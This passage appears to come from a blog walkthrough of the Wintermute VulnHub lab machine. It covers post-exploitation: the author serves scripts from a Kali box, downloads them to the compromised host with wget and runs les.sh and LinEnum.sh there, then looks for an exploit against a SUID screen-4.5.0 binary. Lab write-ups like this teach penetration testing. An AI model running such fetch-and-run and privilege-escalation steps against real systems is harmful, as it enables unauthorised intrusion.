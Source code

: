     kali@kali:~$ cd postexp && sudopython -m SimpleHTTPServer 80

Then download the scipts,
```
www-data@straylight:/dev/shm$ wget -r -np 192.168.251.4/

www-data@straylight:/dev/shm/192.168.251.4:8000$ bash les.sh
```
No kernel exploit is available

    www-data@straylight:/dev/shm/192.168.251.4:8000$ bash LinEnum.sh

Going through the report shows, there's a second network interface. Its connected to another machine.
```
### NETWORKING  ##########################################
[-] Network and IP info:
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.251.7  netmask 255.255.255.0  broadcast 192.168.251.255
        inet6 fe80::a00:27ff:fedf:21fb  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:df:21:fb  txqueuelen 1000  (Ethernet)
        RX packets 2133  bytes 708829 (692.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 458  bytes 78051 (76.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

enp0s8: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.219.8  netmask 255.255.255.0  broadcast 192.168.219.255
        inet6 fe80::a00:27ff:fe4f:a80c  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:4f:a8:0c  txqueuelen 1000  (Ethernet)
        RX packets 951  bytes 500750 (489.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 27  bytes 3832 (3.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

...
```
We scan for other networks:


From LinEnum.sh shows

    -rwsr-xr-x 1 root root 1543016 May 12  2018 /bin/screen-4.5.0

kali@kali:~$ searchsploit screen 4.5

![1-1.png](/assets/images/posts/wintermute-vulnhub-walkthrough/1-11.png)


[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator
